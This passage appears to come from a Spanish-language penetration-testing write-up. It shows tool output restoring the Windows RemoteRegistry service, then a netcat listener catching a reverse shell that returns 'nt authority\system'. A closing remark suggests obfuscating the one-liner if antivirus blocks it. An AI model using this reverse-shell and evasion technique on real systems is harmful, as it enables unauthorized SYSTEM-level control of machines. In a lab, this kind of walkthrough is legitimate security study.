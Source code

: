 ```
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

> netcat:

```
listening on [any] 7777 ...
connect to [192.168.5.205] from (UNKNOWN) [192.168.5.208] 55964
whoami
nt authority\system
```

Si nos generara la `shell` puede ser por que el antivirus lo puede estar cortando el ejecutar ese `OneLine` si no, tendria que ofuscarse y ejecutarse de otra forma.
